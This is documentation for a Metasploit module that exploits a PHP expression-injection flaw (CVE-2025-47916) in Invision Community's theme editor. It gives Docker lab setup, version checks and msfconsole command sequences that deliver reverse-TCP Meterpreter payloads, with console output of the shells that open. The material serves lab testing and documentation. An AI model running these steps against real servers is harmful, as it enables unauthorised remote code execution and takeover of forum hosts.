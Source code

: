 ## Vulnerable Application

This Metasploit module exploits a remote-code injection in Invision Community ≤ 5.0.6 via the **theme editor**’s `customCss` endpoint:

* **CVE-2025-47916**: malformed `{expression="…"}` allows evaluation of arbitrary PHP expressions in the `content` parameter.

### To replicate a vulnerable environment

1. **Download the pre-built Docker lab** (includes `Dockerfile`, `docker-compose.yml` and the IPS 5.0.6 application):

```bash
wget https://archive.org/download/ips-5.0.6/IPS-5.0.6.zip -O ips_5.0.6_lab.zip
mkdir ips_5.0.6_lab_dir
unzip ips_5.0.6_lab.zip -d ips_5.0.6_lab_dir
cd ips_5.0.6_lab_dir
```

2. **Bring up the stack**:

```bash
docker-compose up -d
```

3. **Complete the installer** by browsing to [http://localhost:7777](http://localhost:7777).

   * You do **not** need a valid license key; you can enter any text and proceed.
   * Use database host `db`, user `ipsuser`, password `ipspass`, database `ipsdb`.

## Verification Steps

1. **Check the installed version**:

```bash
curl -s http://localhost:7777/admin/install/eula.txt | head -n5
```

Expected output:

```
=============================[NOTE]=============================
 Buy license at https://invisioncommunity.com/buy/self-hosted/
================================================================
 IPS 5.0.6 (5000074)
=============================[NOTE]=============================
```

2. **In `msfconsole`**, confirm the module’s `check` returns vulnerable:

```bash
use exploit/multi/http/invision_customcss_rce
set RHOSTS 127.0.0.1
set TARGETURI /
check
```

## Options

No option

## Scenarios

### PHP Meterpreter (in-memory)

```bash
use exploit/multi/http/invision_customcss_rce
set TARGET 0
set RHOSTS 127.0.0.1
set TARGETURI /
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST 192.168.1.10
set LPORT 4444
run
```

### Command Shell (ARCH_CMD)

```bash
use exploit/multi/http/invision_customcss_rce
set TARGET 1
set RHOSTS 127.0.0.1
set TARGETURI /
set payload cmd/linux/http/x64/meterpreter_reverse_tcp
set LHOST 192.168.1.10
set LPORT 4444
run
```

## Expected Results

With `php/meterpreter/reverse_tcp`:

```plaintext
msf exploit(multi/http/invision_customcss_rce) > run http://localhost:7777
[*] Exploiting target 127.0.0.1
[*] Started reverse TCP handler on 192.168.1.36:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Detected IPS version: 5.0.6
[+] The target is vulnerable. IPS version 5.0.6 is vulnerable (≤ 5.0.6)
[*] Sending exploit to 127.0.0.1:7777 ...
[*] Sending stage (40004 bytes) to 172.30.0.3
[*] Meterpreter session 9 opened (192.168.1.36:4444 -> 172.30.0.3:34414) at 2025-05-20 18:13:55 +0200
[*] Session 9 created in the background.
msf exploit(multi/http/invision_customcss_rce) > sessions 9
[*] Starting interaction with 9...

meterpreter > sysinfo
Computer    : 01ed59644450
OS          : Linux 01ed59644450 6.14.6-2-cachyos #1 SMP PREEMPT_DYNAMIC Sat, 10 May 2025 20:09:10 +0000 x86_64
Meterpreter : php/linux
```

With `cmd/linux/http/x64/meterpreter_reverse_tcp`:

```plaintext
msf exploit(multi/http/invision_customcss_rce) > run http://localhost:7777
[*] Exploiting target 127.0.0.1
[*] Started reverse TCP handler on 192.168.1.36:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Detected IPS version: 5.0.6
[+] The target is vulnerable. IPS version 5.0.6 is vulnerable (≤ 5.0.6)
[*] Sending exploit to 127.0.0.1:7777 ...
[*] Meterpreter session 7 opened (192.168.1.36:4444 -> 172.30.0.3:46552) at 2025-05-20 18:11:35 +0200
[*] Session 7 created in the background.
msf exploit(multi/http/invision_customcss_rce) > sessions 7
[*] Starting interaction with 7...

meterpreter > sysinfo
Computer     : 172.30.0.3
OS           : Debian 12.10 (Linux 6.14.6-2-cachyos)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
